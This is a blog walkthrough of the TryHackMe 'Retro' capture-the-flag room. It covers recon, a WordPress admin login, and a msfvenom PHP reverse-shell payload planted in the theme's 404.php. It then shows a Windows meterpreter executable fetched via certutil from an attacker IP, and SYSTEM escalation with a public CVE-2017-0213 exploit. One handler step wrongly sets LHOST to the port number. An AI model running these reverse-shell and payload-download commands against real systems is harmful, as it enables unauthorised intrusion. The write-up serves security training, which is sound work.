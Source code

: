 ```yaml
---
title: "Retro CTF"
datePublished: Mon Aug 07 2023 09:07:23 GMT+0000 (Coordinated Universal Time)
cuid: cll0nft0w000g09miedbsablx
slug: retro-ctf
cover: https://cdn.hashnode.com/res/hashnode/image/upload/v1691398073255/32544658-38cb-46d5-855b-da5355a74db6.png
tags: ctf, penetration-testing, ethical-hacking, tryhackme, ctf-writeup

---
```


This walkthrough will go over the [**Retro**](https://tryhackme.com/room/retro) room found on [**TryHackMe**](https://tryhackme.com/). The objective behind this room is to use a bit of passive recon to find a set of credentials in order to RDP into the box, identify a vulnerability in the `Windows COM` `(CVE-2017-0213)`, and privesc to `NT AUTHORITY\SYSTEM`.

### Step 1: What's Out There?

```bash
nmap -sC -sV -p- -Pn retro.thm --min-rate=1000
```

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1691398315139/3276f81f-931e-46fc-a431-507ba270bf34.png align="center")

Looks like we have a webserver and an RDP session open. Let's check out what the web server can offer us.

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1691398334110/a54a66b3-878f-4450-be00-382875ec42e0.png align="center")

A default `Microsoft IIS` page. We'll use `ffuf` to enumerate for directories.

### Step 2: FFUF

```bash
ffuf -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt:FUZZ -u http://retro.thm/FUZZ -fs 703
```

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1691398377905/5a5ad8d7-dd64-4f55-b315-8a631ebb9c81.png align="center")

Nice, we discovered a directory called `/retro`. Let's go to it.

### Step 3: Finding Credentials

We discovered a blog that seems to be run by a username `Wade`.

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1691398407110/e8fa1ff2-f791-4a96-a2d9-c9f1ba46c782.png align="center")

After downloading and viewing the `Comments RSS` data, we discovered text that might be a potential password.

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1691399159508/449ee0ca-cad1-4dcb-a2a0-b59ba4aa2af5.png align="center")

Taking this information and plugging it into the `Site Admin` link allows us to log in to the WordPress admin panel.

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1691398430562/494d3ee4-899a-4795-adf3-b97906094b02.png align="center")

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1691398433597/744cfd33-ecb7-423b-b836-30bed77627d1.png align="center")

### Step 4: Initial Foothold

Based on my experience with getting a reverse shell with WordPress, we would need to modify the `404.php` file and inject our generated shell code. We can do this with `msfvenom`.

```bash
msfvenom -p php/meterpreter/reverse_tcp LHOST=10.13.28.215 LPORT=1337 -f raw -o retro_shell.php
```

Now let's start initializing our handler so we can catch the shell once it executes.

1. `msfconsole`
    
2. `use exploit/multi/handler`
    
3. `set payload php/meterpreter/reverse_tcp`
    
4. `set LHOST <ATTACKER_IP>`
    
5. `set LHOST 1337`
    
6. `exploit`
    

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1691398464051/5c95ac08-7e7c-49a3-9514-c4a3d63bc638.png align="center")

From here we want to copy our retro\_shell.php code and paste it into `404.php`.We can do this by navigating to Appearance &gt; Theme Editor &gt; 404 Template. Delete the content of the `404.php` file and paste it into your shell. Should look like this.

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1691398480745/2db8d5ef-e503-4dc9-9f49-8772d9867edc.png align="center")

Now navigate to the file in your browser ([http://retro.thm/retro/wp-content/themes/90s-retro/404.php](http://retro.thm/retro/wp-content/themes/90s-retro/404.php)) and it will drop you into a meterpreter session.

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1691398490021/d1f3fe9d-5e5e-439d-9033-b0611dee0c68.png align="center")

### Step 5: Detour

Okay, so for some reason I could not get the meterpreter shell to stabilize with the 404.php route. But, that's alright. Sometimes we have to get creative and approach a problem from a different angle... in the end, we still get the same outcome. Root.

So what I decided to do is RDP into the box with our same credentials and upload a payload, set my handler, and catch it with a stable meterpreter session.

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1691398523489/9c78942b-a252-4569-8b2b-238ee9494308.png align="center")

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1691398526561/f18a5b32-ae22-4469-b5c9-49e5096bf9e5.png align="center")

Generate a payload using `msfvenom`:

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.13.28.215 LPORT=1337 -f exe -o payload.exe
```

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1691398540276/0f5e97a2-b254-4ccd-b7cb-d58b87a1bd9b.png align="center")

Start an HTTP Server and transfer it over using `certutil`.

```bash
certutil -urlcache -f http://10.13.28.215:8000/payload.exe payload.exe
```

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1691398553018/d660007e-e76a-4ec6-ac77-c2bc1f327f0d.png align="center")

Now we want to set up our listener and catch the shell. Same as before with a slight modification.

1. `msfconsole`
    
2. `use exploit/multi/handler`
    
3. `set payload windows/x64/meterpreter/reverse_tcp`
    
4. `set LHOST <ATTACKER_IP>`
    
5. `set LPORT 1337`
    
6. `exploit`
    

Run the payload from the victim box and drop it into a meterpreter session.

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1691398569944/b784bfca-e595-4ef2-83ed-4120ec8541dc.png align="center")

### Step 6: Privesc

We're going to use the `Windows Exploit Suggester (WES)` to find a way to elevate our privileges. First, we need to pull the system's information in order to pull this off.

> `systeminfo > sysinfo.txt`

Now we can pull it down to our attack box.

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1691398607012/92071128-8d78-40c2-9043-f7c95ff08f5e.png align="center")

From here we can use `WES` to find a privesc vector (update database before running:

```bash
./windows-exploit-suggester.py --update
```

```bash
./windows-exploit-suggester.py --database 2023-08-07-mssb.xls --sysinfo ~/sysinfo.txt --ostext 'windows 10 64-bit' -l
```

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1691398680395/042c573a-f970-4fba-b5e9-26512fb32738.png align="center")

This build of Windows 10 is vulnerable to a `Windows COM` privesc, `CVE-2017-0213`. There's a binary that we can use to automate this exploit for us. Let's download it to our attack box and upload it to our victim. Link to binary here: [https://github.com/WindowsExploits/Exploits/tree/master/CVE-2017-0213](https://github.com/WindowsExploits/Exploits/tree/master/CVE-2017-0213)

Once we get it on our victim box we can run it and then move over to our RDP session and find a new CMD shell spawned `NT AUTHORITY\SYSTEM` rights.

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1691399172768/3d8491c3-f96f-4d6b-912d-db3096f8356b.png align="center")

Finally...this one was very difficult and time-consuming. I ended up going down multiple rabbit holes and failing at stabilizing shells more times than I'd like to admit. But all-in-all, I can say this box was rewarding and has taught me a lot about Windows privesc. I hope you enjoyed this walkthrough, and as always, Happy Hacking.